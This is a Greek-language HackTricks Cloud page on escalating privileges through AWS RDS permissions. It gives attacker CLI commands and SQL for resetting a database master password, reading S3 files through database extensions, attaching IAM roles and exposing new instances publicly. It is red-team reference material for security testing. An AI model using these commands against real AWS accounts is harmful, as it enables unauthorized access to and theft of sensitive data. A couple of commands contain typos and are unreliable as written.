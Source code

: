 # AWS - Ανέβασμα Προνομίων RDS

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## RDS - Υπηρεσία Σχεσιακής Βάσης Δεδομένων

Για περισσότερες πληροφορίες σχετικά με το RDS, ελέγξτε:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Με αυτήν την άδεια, ένας επιτιθέμενος μπορεί να **τροποποιήσει τον κωδικό πρόσβασης του κύριου χρήστη** και την σύνδεση μέσα στη βάση δεδομένων:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Θα πρέπει να μπορείτε να **επικοινωνήσετε με τη βάση δεδομένων** (συνήθως είναι προσβάσιμες μόνο από εσωτερικά δίκτυα).
{% endhint %}

**Πιθανές Επιπτώσεις:** Εύρεση ευαίσθητων πληροφοριών μέσα στις βάσεις δεδομένων.

### rds-db:connect

Σύμφωνα με τα [**έγγραφα**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) ένας χρήστης με αυτήν την άδεια μπορεί να συνδεθεί στην περίπτωση της βάσης δεδομένων.

### Κατάχρηση των δικαιωμάτων IAM του RDS Role

#### Postgresql (Aurora)

{% hint style="success" %}
Εάν εκτελέσετε την εντολή **`SELECT datname FROM pg_database;`** και βρείτε μια βάση δεδομένων με το όνομα **`rdsadmin`**, τότε γνωρίζετε ότι βρίσκεστε μέσα σε μια **AWS postgresql βάση δεδομένων**.
{% endhint %}

Πρώτα μπορείτε να ελέγξετε εάν αυτή η βάση δεδομένων έχει χρησιμοποιηθεί για να αποκτήσει πρόσβαση σε οποιαδήποτε άλλη υπηρεσία της AWS. Μπορείτε να ελέγξετε αυτό παρατηρώντας τις εγκατεστημένες επεκτάσεις:
```sql
SELECT * FROM pg_extension;
```
Εάν βρείτε κάτι όπως **`aws_s3`**, μπορείτε να υποθέσετε ότι αυτή η βάση δεδομένων έχει **κάποια πρόσβαση στο S3** (υπάρχουν και άλλες επεκτάσεις όπως **`aws_ml`** και **`aws_lambda`**).

Επίσης, εάν έχετε δικαιώματα για να εκτελέσετε **`aws rds describe-db-clusters`**, μπορείτε να δείτε εάν ο **συστάδα έχει κάποιον συνδεδεμένο IAM ρόλο** στο πεδίο **`AssociatedRoles`**. Εάν υπάρχει, μπορείτε να υποθέσετε ότι η βάση δεδομένων ήταν **προετοιμασμένη για πρόσβαση σε άλλες υπηρεσίες του AWS**. Με βάση το **όνομα του ρόλου** (ή εάν μπορείτε να πάρετε τα **δικαιώματα** του ρόλου), μπορείτε να **μαντέψετε** ποια επιπλέον πρόσβαση έχει η βάση δεδομένων.

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε ένα κάδο**, πρέπει να γνωρίζετε την πλήρη διαδρομή. Μπορείτε να το διαβάσετε με:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Εάν είχατε **ακατέργαστα διαπιστευτήρια AWS**, θα μπορούσατε επίσης να τα χρησιμοποιήσετε για να αποκτήσετε πρόσβαση σε δεδομένα S3 με:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Το Postgresql **δεν χρειάζεται να αλλάξει καμία μεταβλητή ομάδας παραμέτρων** για να μπορεί να έχει πρόσβαση στο S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Μέσα σε ένα mysql, αν εκτελέσετε το ερώτημα **`SELECT User, Host FROM mysql.user;`** και υπάρχει ένας χρήστης με το όνομα **`rdsadmin`**, μπορείτε να υποθέσετε ότι βρίσκεστε μέσα σε μια **AWS RDS mysql db**.
{% endhint %}

Μέσα στο mysql εκτελέστε την εντολή **`show variables;`** και αν οι μεταβλητές όπως **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** έχουν τιμές, μπορείτε να υποθέσετε ότι η βάση δεδομένων είναι προετοιμασμένη για πρόσβαση σε δεδομένα S3.

Επίσης, αν έχετε δικαιώματα να εκτελέσετε την εντολή **`aws rds describe-db-clusters`** μπορείτε να ελέγξετε αν ο cluster έχει κάποιο **συσχετισμένο ρόλο**, που συνήθως σημαίνει πρόσβαση σε υπηρεσίες AWS).

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε ένα bucket** πρέπει να γνωρίζετε την πλήρη διαδρομή. Μπορείτε να το διαβάσετε με την εντολή:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBCluster` και `iam:PassRole` μπορεί να **προσθέσει έναν καθορισμένο ρόλο σε ένα υπάρχον RDS instance**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **έχει πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα μέσα στο instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις των δεδομένων στην περίπτωση RDS.\
Σημειώστε ότι ορισμένες βάσεις δεδομένων απαιτούν επιπλέον ρυθμίσεις, όπως η Mysql, η οποία χρειάζεται να καθορίσει το ρόλο ARN στα ομάδας παραμέτρων επίσης.

### `rds:CreateDBInstance`

Μόνο με αυτήν την άδεια, ένας επιτιθέμενος μπορεί να δημιουργήσει μια **νέα περίπτωση μέσα σε ένα υπάρχον cluster** που έχει επισυναφθεί ένας **ρόλος IAM**. Δεν θα μπορεί να αλλάξει τον κωδικό του κύριου χρήστη, αλλά μπορεί να αποκαλύψει τη νέα περίπτωση βάσης δεδομένων στο διαδίκτυο:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
ΕΡΓΑΣΙΕΣ: Δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `rds:CreateDBInstance` και `iam:PassRole` μπορεί να **δημιουργήσει ένα νέο RDS instance με συνδεδεμένο ένα συγκεκριμένο ρόλο**. Ο επιτιθέμενος μπορεί στη συνέχεια να **έχει πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα μέσα στο instance.

{% hint style="warning" %}
Ορισμένες απαιτήσεις για τον ρόλο/προφίλ του instance που θα συνδεθεί (από [**εδώ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Το προφίλ πρέπει να υπάρχει στον λογαριασμό σας.
* Το προφίλ πρέπει να έχει έναν ρόλο IAM που ο Amazon EC2 έχει δικαιώματα να υποθέσει.
* Το όνομα του προφίλ του instance και το συνδεδεμένο όνομα του ρόλου IAM πρέπει να ξεκινά με το πρόθεμα `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα της RDS περίπτωσης.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBInstance` και `iam:PassRole` μπορεί να **προσθέσει έναν καθορισμένο ρόλο σε μια υπάρχουσα περίπτωση RDS**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **έχει πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα μέσα στην περίπτωση.

{% hint style="warning" %}
Η περίπτωση της βάσης δεδομένων πρέπει να είναι εκτός ενός συστήματος συστάδας για αυτό
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις των δεδομένων στην περίπτωση RDS.

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
